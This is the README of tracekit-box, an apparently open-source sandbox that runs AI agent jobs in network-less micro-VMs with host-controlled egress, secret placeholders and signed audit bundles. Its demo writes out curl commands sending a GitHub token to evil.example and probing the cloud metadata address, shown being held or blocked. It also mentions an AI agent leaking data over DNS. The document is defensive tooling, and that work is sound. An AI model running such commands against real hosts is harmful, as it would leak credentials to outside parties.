

<div align="center">



# Let AI agents run real jobs without giving them your network or your keys.

**Each agent job runs in its own Firecracker micro-VM with no network card. Network, secrets, model calls, commands
and code changes all go through doors on the host, a [Tracekit](https://github.com/Cygnux-Labs/Tracekit) signer the
agent can't reach decides each one, and you get one `.tkb` file per job that anyone can verify offline.**

<a href="LICENSE"></a>


<sub>A real recording of one box (tkbox fbc1ad1): every terminal line on screen is from the recording.</sub>

**[Quick look](#quick-look) · [What it stops](#what-it-stops) · [How it works](#how-it-works) · [Requirements](#requirements) ·
[Install](#install) · [Demo](#demo) · [Verify a bundle](#verify-a-bundle) · [GitHub Action](#github-action) · [Python](#python) · [Docs](#docs)**

</div>

## Quick look

```sh
tkbox run --image python:3.12-slim --allow pypi,debian --workspace . --name demo \
  --secret GH=env:GH_TOKEN@api.github.com
tkbox exec demo -- sh -c 'apt-get update -q && apt-get install -y -q curl'   # allowed: debian (the image has no curl)
tkbox exec demo -- pip install -q requests                 # allowed: on the allowlist
tkbox exec demo -- curl -sI https://example.com            # held until a person runs tkbox approve
tkbox exec demo -- curl -sS https://169.254.169.254/       # refused: cloud metadata
tkbox exec demo -- sh -c 'echo "$GH"'                      # prints a placeholder, not your token
tkbox exec demo -- sh -c 'echo fix > /workspace/app.py'    # comes back as a patch
tkbox stop demo && tkbox export demo -o demo.tkb
tracekit verify demo.tkb --trust demo.trust.json           # Integrity: VERIFIED.
```

## What it stops

- **Leaks through DNS.** Box never looks up a name it hasn't allowed, so a job can't send data out in DNS queries,
  the way an OpenAI agent reached an outside chatbot through a DNS-filtering gap in its training sandbox
  ([OpenAI's report](https://alignment.openai.com/misalignment-reports/an-agent-used-dns-to-reach-an-external-chatbot/),
  found 20 Sep 2026).
- **Key theft.** The VM only holds a placeholder. The real key is added on the way out, and only for the hosts it's
  bound to.
- **Cloud metadata and private networks.** Refused whatever the allowlist or an approval says, in every address form
  we fuzzed (decimal, octal, hex, IPv6, IPv4-mapped).
- **Code changes nobody approved.** A job's edits come back as a patch, and each file is decided and signed before
  it's written to your checkout.

**Tested:** 13 of 13 end-to-end checks on real KVM in CI, three independent review rounds and a fuzzing campaign.
Each fix comes with a test that fails without it.

Built for teams whose agents change real systems: DevOps and SRE, and fintech and healthcare engineering, running
agents in CI and production.

**Status:** v0, build from source, one Linux host with KVM. Every limit is in [docs/limits.md](docs/limits.md), and
what Box guarantees is in [SECURITY.md](SECURITY.md).

## How it works

```
 host: server or CI runner (trusted)                micro-VM (untrusted: the agent lives here)
 ┌────────────────────────────────────────┐ vsock  ┌────────────────────────────────────────┐
 │ tkbox daemon                           │◀──────▶│ tkbox-guest (PID 1): exec, files, diff │
 │  ├ egress proxy: allowlist, IP checks, │◀───────│ egress forwarder on 127.0.0.1:3128     │
 │  │  secret swap                        │        │ your agent, its tools, its model calls │
 │  ├ image builder (OCI image → ext4)    │        │ no network card                        │
 │  └ Tracekit client ──▶ Tracekit signer │        │ /workspace: a copy of your checkout    │
 └────────────────────────────────────────┘        └────────────────────────────────────────┘
```

Three trust domains:

- **The host** (trusted) runs `tkbox daemon`. It starts the VMs, owns the doors and keeps the secrets.
- **The VM** (untrusted) runs the agent. It has no network card: the only ways out are vsock ports the daemon serves.
  The host never trusts what the VM says about itself, only what passes through a door.
- **The Tracekit signer** runs in its own trust domain and holds the signing key. It must be on the same host as the
  daemon (Unix socket only). The agent can reach neither its socket nor the daemon's. Run it as a separate user so no
  other process of yours can reach its key (`isolation: separate-user`); assurance above `dev` needs a witness on
  another host to cosign the signer's log ([Tracekit's deploy guide](https://github.com/Cygnux-Labs/Tracekit/blob/v1.4.2/docs/deploy.md)).

### The doors

Each box is one Tracekit run. Every door records into it.

| Door | What Box does | What the signed record shows |
|---|---|---|
| Commands | A command you start in the box (`tkbox exec`, the SDK, MCP or the action) runs only through the guest agent, and only after the signer allows it. The processes that command starts itself, such as the shell commands an agent runs, are not decided or recorded one by one: they show up where they cross another door (a connection, a secret, a file change) | A `Bash` decision per `tkbox exec` with the command line, working directory, the exec's environment (secret placeholders redacted; a value holding a secret's value is refused) and its stdin when it is known up front (up to 1 MiB: its sha256 and size, and the text up to 4 KiB), then its exit status (with streamed stdin's sha256 and size). The box's own environment is recorded when the box is created |
| Network | Every connection goes through the host proxy. Allowlisted hosts pass; any other host waits for a person to run `tkbox approve` (with `--inspect all` it is refused at once); loopback, private, link-local, cloud metadata and this host's own addresses are refused. An HTTPS tunnel must name the same host in its TLS handshake as in its request (encrypted ClientHellos are refused); a tunnel that is not TLS needs an allow entry that names its port | A `WebFetch` decision per connection; Box approvals as `tkbox.approval` |
| Secrets | The VM only ever sees a placeholder such as `tkbox_GH_3f9c…`. The proxy swaps in the real value only in the one bound header (default `Authorization`) of requests to the secret's exact hosts. On traffic it reads, it blocks the placeholder or the value anywhere else and redacts the value from responses | `tkbox.secret.use` and `tkbox.secret.leak` with the secret's name and host, never its value |
| Model calls | Model APIs are egress to a model host, which comes from an allow preset or entry (`--allow anthropic`); a key is bound to it as a secret (`ANTHROPIC_API_KEY` → `api.anthropic.com`). A secret's host alone does not make a model host | The connection's `WebFetch` decision plus `tkbox.model.call` (host, path, status, bytes) for a model host |
| Code changes | The guest produces a git-format patch of `/workspace`, saved when the box stops. `tkbox apply` (on a stopped box, from that saved patch, before export) checks every path, refuses changes to files such as `.github/workflows/**` unless you pass `--allow-sensitive`, asks the signer about each file before it writes anything to your checkout, and runs no git hooks or filters. `git apply` never runs on your checkout: Box builds the result in a scratch copy, checks it against what the signer decided, and writes the files itself | A `Write` decision per file, with the patch's digest and the file's content hash and mode |
| Stop | A box timeout, `tkbox stop`, or the signer holding or quarantining the run pauses or kills the VM. Egress closes the moment a stop begins | The run's close reason |

**Fail closed.** No signer, no daemon: `tkbox daemon` exits at start when no signer answers (unless you start it with
`--unrecorded`, which warns and records nothing). A signer that stops answering refuses every later command,
connection and file write. If Box cannot record an event it must keep (a secret use or leak, a model call, an
approval, a containment or lifecycle event), it stops the box and records the loss in the run as `tkbox.gap`; an
approval it cannot record also lets nothing through.

The design, protocols and disks are in [docs/architecture.md](docs/architecture.md).

## Requirements

- Linux on x86_64 or arm64 with `/dev/kvm` that the daemon's user can open: bare metal, a cloud VM with nested
  virtualization, or a GitHub-hosted `ubuntu-latest` runner (the [action](#github-action) enables KVM for you). On a Mac,
  use the Lima VM in [docs/development.md](docs/development.md).
- `e2fsprogs` (`mkfs.ext4`) to build disk images, and `git` to snapshot the workspace.
- A Tracekit 1.4.2 signer on the same host: `pip install tracekit-ai==1.4.2`. For a dev setup,
  `tracekit init --dev --v2 --no-hooks && tracekit up --wait` starts a same-user signer.
- Outbound HTTPS from the host to your image registry (Docker Hub or GHCR). On its first start the daemon also
  downloads Firecracker v1.17.0 (from GitHub) and guest kernel 6.1.155 (from the Firecracker project's S3 bucket),
  checks both by SHA-256 and caches them in `<state dir>/images/assets`. On a host without that access, pass local
  files with `tkbox daemon --firecracker FILE --kernel FILE`.

## Install

There is no release yet. Build both binaries from source with Go (the version in `go.mod`) and put `tkbox` and the
guest agent side by side: `tkbox` looks for `tkbox-guest-linux-<arch>` next to its own binary (or in
`tkbox daemon --guest-dir DIR`).

```sh
git clone https://github.com/Cygnux-Labs/tracekit-box && cd tracekit-box
make linux                     # bin/tkbox-linux-{amd64,arm64} and bin/tkbox-guest-linux-{amd64,arm64}
arch=$(uname -m); case "$arch" in x86_64) arch=amd64 ;; aarch64) arch=arm64 ;; esac
sudo install -m 0755 "bin/tkbox-linux-$arch" /usr/local/bin/tkbox
sudo install -m 0755 "bin/tkbox-guest-linux-$arch" /usr/local/bin/
tkbox version
```

[docs/development.md](docs/development.md) has the other build targets and the tests.

## Demo

A box with PyPI and Debian's mirror on its allowlist, your checkout in `/workspace`, and a GitHub token the box never
sees. [examples/demo.sh](examples/demo.sh) runs exactly these steps. First a same-user dev signer and a token:

```sh
tracekit init --dev --v2 --no-hooks && tracekit up --wait
export GH_TOKEN=ghp_...   # any GitHub token
```

Then, from a git checkout:

```sh
tkbox daemon > "${TMPDIR:-/tmp}/tkbox-daemon.log" 2>&1 &   # exits if no signer answers
until tkbox ls >/dev/null 2>&1; do sleep 1; done            # the first start downloads Firecracker and the kernel
tkbox run --image python:3.12-slim --allow pypi --allow debian --workspace . --name demo \
  --secret GH=env:GH_TOKEN@api.github.com --env PIP_ROOT_USER_ACTION=ignore --env PIP_DISABLE_PIP_VERSION_CHECK=1
tkbox exec demo --env DEBIAN_FRONTEND=noninteractive -- sh -c 'apt-get update -q && apt-get install -y -q curl'
tkbox exec demo -- python -c 'print(1+1)'                  # 2, recorded as Bash
tkbox exec demo -- curl -sI https://example.com            # held: off the allowlist, waits for tkbox approve
tkbox exec demo -- pip install -q requests                 # allowed: the pypi preset
tkbox exec demo -- curl -sS https://169.254.169.254/       # refused at once: cloud metadata
tkbox exec demo -- sh -c 'echo "$GH"'                      # a placeholder, not your token
tkbox exec demo -- sh -c 'curl -sS -H "Authorization: Bearer $GH" https://evil.example/'  # held, like example.com
tkbox exec demo -- sh -c 'curl -sS -H "Authorization: Bearer $GH" http://evil.example/'   # blocked at once: a leak
tkbox exec demo -- sh -c 'curl -sS -H "Authorization: Bearer $GH" https://api.github.com/user | grep "\"login\""'
tkbox exec demo -- sh -c 'echo hi > /workspace/x.txt' && tkbox diff demo             # a patch with x.txt
tkbox stop demo && tkbox export demo -o demo.tkb && tracekit verify demo.tkb --trust demo.trust.json
```

What each step shows:

- **`curl` is not in `python:3.12-slim`.** The image is Debian, so the `debian` preset (`deb.debian.org`,
  `security.debian.org`) lets `apt-get` install it; `DEBIAN_FRONTEND=noninteractive` keeps apt from asking questions.
  Ubuntu images need the `apt-ubuntu` preset instead.
- **`print(1+1)`** is decided by the signer before it starts and recorded as a `Bash` decision with its exit status.
- **`example.com`** is off the allowlist, so the proxy holds the connection and prints an approval id. Run
  `tkbox approvals` and `tkbox approve <id>` (or `tkbox reject <id>`) in another terminal on the host; nothing in the VM
  can answer it. Unanswered, it is refused after 2 minutes.
- **`169.254.169.254`** is the cloud metadata address. It is refused before any decision, whatever the allowlist says.
- **`$GH` inside the box is a placeholder**, not your token.
- **`evil.example` over HTTPS** is off the allowlist, so it is held for approval like `example.com`. Box does not read
  that encrypted connection, so it cannot see the placeholder in it; even if someone approved the connection, only the
  placeholder could leave, because the real value never enters the VM.
- **`evil.example` over plain HTTP** goes through the proxy as a request it reads. It carries `GH`'s placeholder to a
  host `GH` is not bound to, so the proxy blocks it at once and records `tkbox.secret.leak`.
- **`api.github.com`** is the host `GH` is bound to: a secret's hosts join the box's allowlist, and the proxy opens that
  connection, swaps the real token into the `Authorization` header and records `tkbox.secret.use`. The output is your
  GitHub login. (Piping `curl` into `python` instead would be refused by the signer: TK-D002, a downloaded script run
  unread.)
- **`tkbox diff`** shows a git-format patch with `x.txt`. After `tkbox stop` (and before `tkbox export`),
  `tkbox apply demo` would ask the signer about `x.txt` and then write it to your checkout; the demo does not apply
  anything. Apply never works on a running box.
- **`tracekit verify`** checks the bundle offline and prints `Integrity: VERIFIED.` With the dev signer it also prints
  `Assurance: dev` (no witness cosigned the signer's log) and `isolation: same-user` (a process running as your user
  could have reached the key). The agent inside the box cannot, but the bundle only states what the signer's setup
  proves.

## Verify a bundle

`tkbox export <box> -o run.tkb` writes the bundle and the signer's trust file next to it as `run.trust.json`. Anyone
with both can check the run offline, with no access to your host:

```sh
pip install tracekit-ai==1.4.2
tracekit verify run.tkb --trust run.trust.json          # exit 0: Integrity: VERIFIED.
tracekit verify run.tkb --trust run.trust.json --json   # the same report as JSON
```

A verified bundle proves that the record is intact and was signed by the signer the trust file pins. It does not prove
that the agent did nothing the doors could not see; see [SECURITY.md](SECURITY.md#what-box-does-not-guarantee). Pin the
trust file you expect (commit it, or keep it outside CI) rather than trusting the one shipped next to a bundle.

## GitHub Action

[`action/`](action/action.yml) runs an agent in a box on a GitHub-hosted runner: it enables KVM, starts a dev signer and
the daemon, runs Claude Code, Codex or a command in a box with your checkout, stops the box, applies its changes if the
signer allows every file and none is sensitive, such as `.github/workflows/**` (otherwise none), then exports and verifies the bundle and uploads it as an artifact.

```yaml
jobs:
  fix:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@v4
        with:
          persist-credentials: false
      - uses: Cygnux-Labs/tracekit-box/action@main
        with:
          agent: claude-code
          prompt: "Make the failing test in test/parser.test.js pass. Do not change the test."
        env:
          ANTHROPIC_API_KEY: ${{ secrets.ANTHROPIC_API_KEY }}
```

The API key reaches only the daemon on the runner; inside the box Claude Code sees a placeholder that works only for
`api.anthropic.com`. The action's signer is a dev signer it creates in the same job, and the trust file it verifies
against comes from that same job, with no witness, so its bundles verify as `Assurance: dev`: they show the record was
not changed after the job, not that the runner was honest. Inputs, outputs and the steps are in [action/action.yml](action/action.yml).
The agent's output, and the file names `tkbox stop`, `diff` and `apply` print, reach the job log with workflow
commands stopped (`::stop-commands::` with a random token, resumed however the step ends), so the agent can't add
annotations, masks or step outputs by printing `::error::` and the like.

The action applies the agent's changes to the runner's checkout. Building or testing them there runs the agent's code
on the runner. [examples/claude-code-fix.yml](examples/claude-code-fix.yml) shows the safe shape: one job runs the box
with a read-only token, a second job with only a read-only, unpersisted token and no secrets tests the patch, and only a third job, which never
runs repository code, holds a write token and opens the pull request.

## Python

[`sdk/python`](sdk/python) is a standard-library client of the daemon's API (Python 3.9 or newer):

```python
from tracekit_box import Client

c = Client()
c.create_box("python:3.12-slim", name="demo", allow=["pypi"], workspace=".")
print(c.exec("demo", ["python", "-c", "print(1+1)"]).stdout_text)   # 2
```

Install it from a checkout with `pip install ./sdk/python`.

## Docs

| Doc | What is in it |
|---|---|
| [docs/cli.md](docs/cli.md) | Every `tkbox` command and flag, and exit codes |
| [docs/config.md](docs/config.md) | `tkbox.yaml` reference |
| [docs/limits.md](docs/limits.md) | Every limit, what Box says when you hit it and what to do |
| [docs/architecture.md](docs/architecture.md) | Trust domains, doors, protocols, disks |
| [docs/development.md](docs/development.md) | Building, the Lima dev VM, unit and end-to-end tests |
| [SECURITY.md](SECURITY.md) | Threat model, guarantees, how to report a vulnerability |
| [examples/](examples) | `tkbox.yaml`, the demo script, a workflow that opens a fix PR |
| [llms.txt](llms.txt), [skills/tracekit-box](skills/tracekit-box/SKILL.md) | For AI agents: what Box is and how to use it, and an Agent Skill that runs a job in a box step by step |

## License

MIT. Copyright (c) 2026 Cygnux Labs.
